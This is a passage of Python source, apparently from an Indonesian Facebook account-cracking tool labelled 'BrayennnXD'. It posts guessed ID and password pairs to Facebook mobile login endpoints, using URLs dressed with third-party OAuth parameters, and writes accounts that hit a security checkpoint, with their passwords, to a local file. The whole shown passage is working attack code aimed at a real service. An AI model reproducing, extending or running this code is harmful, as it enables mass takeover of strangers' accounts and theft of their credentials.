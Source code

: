                          link = random.choice(["https://m.facebook.com/login/device-based/regular/login/?api_key=140810032656374&auth_token=63ed3e768f0e783f4cc81a6b1026c500&skip_api_login=1&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv14.0%2Fdialog%2Foauth%3Fclient_id%3D140810032656374%26redirect_uri%3Dhttps%253A%252F%252Faccounts.pixiv.net%252Fpigya%252Fproxy%252Fcallback%252Ffacebook%26response_type%3Dcode%26scope%3Demail%26state%3DGeDYUodE_pVN5pDXKBbhaF12RvXSU-30ikz4dZVHI8w%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Dd3e7e4df-8e7b-42c9-81a7-ee0e2abb19c9%26tp%3Dunspecified&refsrc=deprecated&app_id=140810032656374&cancel=https%3A%2F%2Faccounts.pixiv.net%2Fpigya%2Fproxy%2Fcallback%2Ffacebook%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3DGeDYUodE_pVN5pDXKBbhaF12RvXSU-30ikz4dZVHI8w%23_%3D_&lwv=100&locale2=id_ID&refid=9","https://m.facebook.com/login/device-based/regular/login/?api_key=213560439114&auth_token=7ade521eceaab1458866d9821149d64f&skip_api_login=1&signed_next=1&next=https%3A%2F%2Fmobile.facebook.com%2Fv2.9%2Fdialog%2Foauth%3Fapp_id%3D213560439114%26cbt%3D1677182177996%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df11da1fc663793c%2526domain%253Dwww.starmakerstudios.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.starmakerstudios.com%25252Ff1245028efb5658%2526relation%253Dopener%26client_id%3D213560439114%26display%3Dtouch%26domain%3Dwww.starmakerstudios.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fwww.starmakerstudios.com%252Flogin%252Fpage%253Freturn_url%253D%252Finstrumental%252Fupload%26locale%3Dzh_CN%26logger_id%3Df2bda15588a0498%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df1931b4149a3a44%2526domain%253Dwww.starmakerstudios.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.starmakerstudios.com%25252Ff1245028efb5658%2526relation%253Dopener%2526frame%253Df3f39a10ef963dc%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Demail%26sdk%3Djoey%26version%3Dv2.9%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&refsrc=deprecated&app_id=213560439114&cancel=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df1931b4149a3a44%26domain%3Dwww.starmakerstudios.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.starmakerstudios.com%252Ff1245028efb5658%26relation%3Dopener%26frame%3Df3f39a10ef963dc%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&lwv=100&locale2=id_ID&refid=9","https://m.facebook.com/login/device-based/regular/login/?api_key=213560439114&auth_token=5f8c7178a13395b4cd272a3e1897de8b&skip_api_login=1&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv14.0%2Fdialog%2Foauth%3Fcct_prefetching%3D0%26client_id%3D213560439114%26cbt%3D1677419913361%26e2e%3D%257B%2522init%2522%253A1677419913361%257D%26ies%3D1%26sdk%3Dandroid-14.1.1%26sso%3Dchrome_custom_tab%26nonce%3D063978e3-28aa-4a0f-bbc6-9272a9973fcb%26scope%3Duser_birthday%252Copenid%252Cpublic_profile%252Cuser_gender%252Cuser_friends%252Cemail%26state%3D%257B%25220_auth_logger_id%2522%253A%252281b4243d-16d4-4293-aa47-6359abf5abdd%2522%252C%25223_method%2522%253A%2522custom_tab%2522%252C%25227_challenge%2522%253A%2522lgg1tdnv3jjnt4houtbf%2522%257D%26code_challenge_method%3DS256%26default_audience%3Dfriends%26login_behavior%3DNATIVE_WITH_FALLBACK%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.starmakerinteractive.starmaker%26auth_type%3Drerequest%26response_type%3Did_token%252Ctoken%252Csigned_request%252Cgraph_domain%26return_scopes%3Dtrue%26code_challenge%3DP1LSLToQntEH2uBpWwB7VQimlXskVC9z-rHLt8TMxh0%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D81b4243d-16d4-4293-aa47-6359abf5abdd%26tp%3Dunspecified&refsrc=deprecated&app_id=213560439114&cancel=fbconnect%3A%2F%2Fcct.com.starmakerinteractive.starmaker%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252281b4243d-16d4-4293-aa47-6359abf5abdd%2522%252C%25223_method%2522%253A%2522custom_tab%2522%252C%25227_challenge%2522%253A%2522lgg1tdnv3jjnt4houtbf%2522%257D&lwv=100&locale2=id_ID&refid=9"]) 
                         po = ses.post(link,data=data,headers=headers,allow_redirects=False) 
                         if "checkpoint" in po.cookies.get_dict().keys(): 
                                 if 'no' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         break 
                                 elif 'ya' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 